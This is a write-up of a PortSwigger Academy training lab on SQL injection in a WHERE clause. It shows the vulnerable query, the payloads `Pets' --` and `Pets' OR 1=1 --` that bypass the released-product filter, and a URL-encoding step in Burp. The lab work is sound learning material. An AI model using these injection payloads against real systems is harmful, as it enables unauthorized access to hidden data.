 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data>  
Difficulty: APPRENTICE

## Known information

- vulnerable to SQL injection
- parameter: URL argument category
- Query string used
- Result: Page contains filtered view of the category, showing only released products
- Goal: Show unreleased products

## Query

Query is provided as

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The category string is likely taken directly from the URL argument

```sql
SELECT * FROM products WHERE category = '<PARAM>' AND released = 1
```

## Steps

### Find baseline

Find out what is the baseline, select Pets

--> 3 entries shown

### Ignore released part of query

Need to inject something that causes the 'AND released = 1' part to be ignored, for example by injecting a comment that ignores all the remaining part of the query.

```sql
SELECT * FROM products WHERE category = 'Pets' -- AND released = 1
```

inject `Pets' --`

This results in this query

```sql
SELECT * FROM products WHERE category = 'Pets' -- ' AND released = 1
```

Note the single quote after the `--`, which is added by the application. Due to the comment we don't have to deal with it.

#### URL encode

The URL needs to be properly encoded. When using a browser, this will be done automatically by the browser but is not shown in the URL bar. When using Burp Repeater the URL encoding needs to be done manually with `Ctrl+U`

![url encode in burp](img/url_encode.png)

==> 4 entries shown

### Show all products regardless of category

To show all products, regardless of category or released status, inject a string that evaluates to `TRUE` for each entry in the table.

```sql
Pets' OR 1=1 --
```

![Result](img/result.png)
